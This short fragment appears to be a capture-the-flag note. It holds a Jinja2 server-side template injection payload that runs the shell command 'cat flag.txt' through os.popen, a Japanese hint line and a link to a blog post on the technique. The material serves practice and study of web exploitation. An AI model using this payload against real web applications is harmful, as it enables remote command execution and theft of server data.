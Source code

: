 ```
{% for a in [request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag.txt')['read']()] %} {{ a }} {% endfor %}
```

ヒント 1 を確認
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
